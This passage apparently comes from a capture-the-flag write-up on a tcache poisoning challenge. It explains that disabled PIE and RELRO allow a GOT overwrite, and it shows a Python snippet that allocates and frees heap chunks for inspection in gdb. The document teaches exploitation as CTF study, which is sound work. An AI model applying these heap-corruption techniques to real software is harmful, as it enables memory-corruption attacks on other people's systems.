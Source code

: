 Both PIE and RELRO are disabled, so this is as straight forward tcache poisoning as we were promised. This means we can overwrite a GOT pointer at a predictable address. 

Tcache poisoning involves corrupting the linked list of free tcache bins to create heap chunks whereever we want. To illustrate, we can run the script, create three chunks and then delete those chunks with the code below (see the full exploit at the bottom for my gdb.attach() method etc.).

```py
def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"1") #create (malloc)
send(b"2")

send(b"4") #delete (free)
send(b"2")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

p.interactive()
```

Notice that I free'd the chunks in the opposite order to the one i created them in. After running this and attaching with gdb, we can run visual-heap in gef to view the heap at the current moment:

![visual heap](./images/vis.png "visual heap")
